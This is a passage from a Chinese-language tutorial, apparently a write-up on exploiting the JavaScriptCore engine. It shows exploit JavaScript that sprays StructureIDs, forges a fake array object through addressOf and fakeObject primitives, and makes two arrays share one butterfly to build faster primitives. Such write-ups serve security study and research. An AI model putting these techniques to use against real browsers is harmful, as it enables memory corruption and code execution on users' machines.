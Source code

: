 #### <a class="reference-link" name="%E5%A0%86%E5%96%B7StructureID"></a>堆喷StructureID

为了伪造一个数组对象，首先得拿到数组对象的StructureID，由于其是一串数字，并且对数组对象增加不同的属性即可使得StructureID不同，依次递增，因此，我们申请一些列不同原型的数组对象，然后随便猜测一个StructureID

```
//制造N个对象，每个对象产生不一样的Structures，使得我们可以猜测一个可用的StructuresID
var structs = [];
function sprayStructures() `{`
   var fake_elements_header = p64f(0,0);
   for (var i = 0; i &lt; 1000; i++) `{`
      var a = `{`x:1,y:2`}`;
      for (var j=0;j&lt;0xffff;j++)
         a[j] = 23.33;
      a['x' + i] = fake_elements_header;
      a.prop = 1.1;
      structs.push(a);
   `}`
`}`
sprayStructures();
```

#### <a class="reference-link" name="%E4%BC%AA%E9%80%A0%E6%95%B0%E7%BB%84%E5%AF%B9%E8%B1%A1"></a>伪造数组对象

```
var victim = structs[0x300];

var jscell_double = p64f(0x00000200,0x01082007);

//对象的内存地址必须对齐，因此我们增加一个padding
var container = `{`
   padding:1.1,
   jscell:jscell_double,
   butterfly:victim,
   butterflyIndexingMask:p64f(0x11111111,0x0)
`}`

var container_addr = addressOf(container);
var hax = fakeObject(container_addr[0]+0x20,container_addr[1]);
```

这里，我们将butterfly直接指向了victim，由于是对象，因此存储的是指针，所以通过`hax`，我们可以控制`victim`对象的整个结构，victim同样也是一个数组，我们这样做的目的是避免多次通过`fakeObject`和`addressOf`来伪造对象，因为这比较耗时并且可能影响内存布局，我们只需第一次伪造一个对象能够控制已有的对象，后面就可以方便操作，同样我们利用has和victim重新构造一个快速的`NewAddressOf`和`NewFakeObject`

```
// ArrayWithDouble
//var unboxed = [6.66,6.66,6.66];
var unboxed = structs[0x301];
var a = `{`x:1,y:2`}`;
//for (var j=0;j&lt;0xffff;j++)
   //a[j] = 23.33;
a['x0'] = p64f(0,0);
// ArrayWithContiguous
var boxed = `{`x:1,y:2`}`;
boxed[0] = `{``}`;

//让boxed和unboxed的Butterfly为同一地址
var d = addressOf(unboxed);
hax[1] = p64f(d[0],d[1]);
var sharedButterfly = victim[1];
d = addressOf(boxed);
hax[1] = p64f(d[0],d[1]);
victim[1] = sharedButterfly;
```